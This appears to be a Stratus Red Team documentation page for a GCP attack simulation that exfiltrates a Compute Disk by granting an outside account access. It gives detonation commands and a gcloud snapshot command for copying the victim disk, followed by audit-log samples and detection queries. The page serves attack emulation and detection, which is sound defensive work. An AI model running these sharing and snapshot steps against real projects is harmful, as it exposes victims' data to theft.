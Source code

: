 ```yaml
---
title: Exfiltrate Compute Disk by sharing it
---
```


# Exfiltrate Compute Disk by sharing it


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: GCP

## Mappings

- MITRE ATT&CK
    - Exfiltration



## Description


Exfiltrates a Compute Disk by sharing with a fictitious attacker account. The attacker could then create a snapshot of the disk in their GCP project.

<span style="font-variant: small-caps;">Warm-up</span>:

- Create a Compute Disk

<span style="font-variant: small-caps;">Detonation</span>:

- Set the IAM policy of the disk so that the attacker account has permissions to read the disk in their own project

!!! note

	Since the target e-mail must exist for this attack simulation to work, Stratus Red Team grants the role to stratusredteam@gmail.com by default.
	This is a real Google account, owned by Stratus Red Team maintainers and that is not used for any other purpose than this attack simulation. However, you can override
	this behavior by setting the environment variable <code>STRATUS_RED_TEAM_ATTACKER_EMAIL</code>, for instance:

	```bash
	export STRATUS_RED_TEAM_ATTACKER_EMAIL="your-own-gmail-account@gmail.com"
	stratus detonate gcp.exfiltration.share-compute-disk
	```


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate gcp.exfiltration.share-compute-disk
```
## Detection


You can detect when someone changes the IAM policy of a Compute Disk, using the GCP Admin Activity audit logs event <code>v1.compute.disks.setIamPolicy</code>. Here's a sample event, shortened for clarity:

```json hl_lines="18 20 25""
{
  "protoPayload": {
    "@type": "type.googleapis.com/google.cloud.audit.AuditLog",
    "authenticationInfo": {
      "principalEmail": "user-sharing-the-disk@domain.tld",
      "principalSubject": "user:user-sharing-the-disk@domain.tld"
    },
    "requestMetadata": {
      "callerIp": "34.33.32.31",
      "callerSuppliedUserAgent": "google-cloud-sdk gcloud/..."
    },
    "resourceName": "projects/victim-project/zones/us-central1-a/disks/stratus-red-team-victim-disk",
    "request": {
      "policy": {
        "version": "3",
        "bindings": [
          {
            "role": "roles/owner",
            "members": [
              "user:attacker@gmail.com"
            ]
          }
        ]
      },
      "@type": "type.googleapis.com/compute.disks.setIamPolicy"
    }
  }
}
```

After the attacker has permissions on the Compute Disk, they can create a snapshot of it in their own GCP project using:

```bash
gcloud compute snapshots create stolen-snapshot \
	--source-disk https://www.googleapis.com/compute/v1/projects/victim-project/zones/us-central1-a/disks/stratus-red-team-victim-disk
```

When they do so, a GCP Admin Activity event <code>v1.compute.snapshots.insert</code> is generated in the victim project, 
indicating that the attacker has not only shared but also actively stolen data from the disk (sample event shortened below):

```json hl_lines="5 6 14 16"
{
  "protoPayload": {
    "@type": "type.googleapis.com/google.cloud.audit.AuditLog",
    "authenticationInfo": {
      "principalEmail": "attacker@gmail.com",
      "principalSubject": "user:attacker@gmail.com"
    },
    "requestMetadata": {
      "callerSuppliedUserAgent": "google-cloud-sdk gcloud/...",
      // Note: the IP of the attacker is not logged in this event
    },
    "serviceName": "compute.googleapis.com",
    "methodName": "v1.compute.snapshots.insert",
    "resourceName": "projects/victim-project/zones/us-central1-a/disks/stratus-red-team-victim-disk",
    "request": {
      "@type": "type.googleapis.com/compute.snapshots.insert"
    },
    "metadata": {
      "@type": "type.googleapis.com/google.cloud.audit.CrossEntityControlAuditMetadata"
    }
  }
}
```

Based on these events, detection strategies may include:

- Alerting when the IAM policy of a Compute Disk is changed, especially if such a sharing mechanism is not part of your normal operations. Sample GCP Logs Explorer query:

```sql
protoPayload.methodName="v1.compute.disks.setIamPolicy"
```

- Alerting when someone with an unexpected e-mail domain creates a snapshot of a Compute Disk. Sample GCP Logs Explorer query:

```sql
protoPayload.methodName="v1.compute.snapshots.insert"
NOT protoPayload.authenticationInfo.principalEmail=~".+@your-domain.tld$"
```


